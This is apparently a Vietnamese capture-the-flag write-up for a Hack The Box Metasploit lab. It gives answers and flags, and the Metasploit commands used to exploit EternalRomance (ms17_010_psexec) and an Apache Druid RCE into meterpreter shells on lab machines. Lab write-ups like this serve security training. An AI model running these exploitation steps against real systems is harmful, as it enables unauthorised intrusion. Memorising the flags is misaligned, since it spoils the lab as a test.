





# Lời giải — Using the Metasploit Framework

### Q1: Which version of Metasploit comes equipped with a GUI interface?

> **Đáp án:** `Metasploit Pro`

---

### Q2: What command do you use to interact with the free version of Metasploit?

> **Đáp án:** `msfconsole`

---

### Q3: Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.

Trong lab này đã nói rõ chúng ta sẽ dùng module: `EternalRomance` trong metasploit để khai thác máy nạn nhân

Đầu tiên ta mở metasploit: `msfconsole` rồi chạy lệnh: `use windows/smb/ms17_010_psexec`

Tiến hành cài đặt options trong module: 
`set RHOSTS 10.129.2.141` (IP nạn nhân)  
`set LHOST tun0` (IP máy mình)

sau khi quét xong, màn hình hiện lên tab meterpreter, ta chạy lệnh `shell` để vào cmd của máy nạn nhân rồi lấy flag

Flag nằm trong `Administrator's Desktop`

> **Đáp án:** `HTB{MSF-W1nD0w5-3xPL01t4t10n}`

---

### Q4: Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.

Đề bài đã nói là ta sẽ tiến hành xâm nhập vào dịch vụ `Apache Druid`, ta mở metasploit lên và search các `modules` về `Apache Druid`

Như ta có thể thấy module `0` và `3` là liên quan đến `Apache Druid`

Tiến hành nmap để tìm hiểu sâu hơn để biết nên chọn module nào để khai thác  
Ta thấy có trang web đang mở ở cổng 8888

Chạy lệnh `curl <Địa chỉ>` để đọc trang web đấy  
Như vậy ta đã biết được cần phải dùng `module 0` để khai thác 

Chạy lần lượt các lệnh:  
Command: `use linux/http/apache_druid_js_rce`  
Command: `set RHOST <IP nạn nhân>`  
Command: `set LHOST tun0`  
chạy lệnh `run` rồi cửa sổ `meterpreter` hiện ra

ta khám phá qua rồi lấy flag

> **Đáp án:** `HTB{MSF_Expl01t4t10n}`

